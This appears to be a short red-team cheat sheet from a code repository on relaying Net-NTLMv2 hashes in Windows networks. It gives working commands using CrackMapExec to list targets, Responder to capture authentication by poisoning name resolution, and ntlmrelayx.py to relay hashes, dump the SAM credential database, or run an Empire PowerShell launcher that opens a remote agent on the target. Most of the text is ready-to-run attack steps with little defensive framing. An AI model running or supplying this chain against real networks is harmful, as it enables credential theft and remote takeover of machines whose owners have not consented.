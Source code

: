 # net-ntlmv2-relay

Since [MS08-068](https://technet.microsoft.com/en-us/library/security/ms08-068.aspx) you cannot relay a Net-NTLM hash back to the same machine you got it from (e.g. the 'reflective' attack) unless you're performing a cross-protocol relay (which is an entirely different topic). However you can still relay the hash to another machine.

```
cme smb <CIDR> --gen-relay-list targets.txt

python Responder.py -I <interface> -r -d -w

ntlmrelayx.py -tf targets.txt

```

By default, [ntlmrelayx.py](https://github.com/CoreSecurity/impacket/blob/master/examples/ntlmrelayx.py) upon a successful relay will dump the SAM database of the target.

execute command

```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Let's recap

1. We're using Responder to intercept authentication attempts (Net-NTLM hashes) via Multicast/Broadcast protocols.
2. However, since we turned off Responder's SMB and HTTP servers and have ntlmrelayx.py running, those authentication attempts get automatically passed to ntlmrelayx.py's SMB and HTTP servers
3. ntlmrelayx.py takes over and relays those hashes to our target list. If the relay is successful it will execute our Empire launcher and give us an Empire Agent on the target machine.
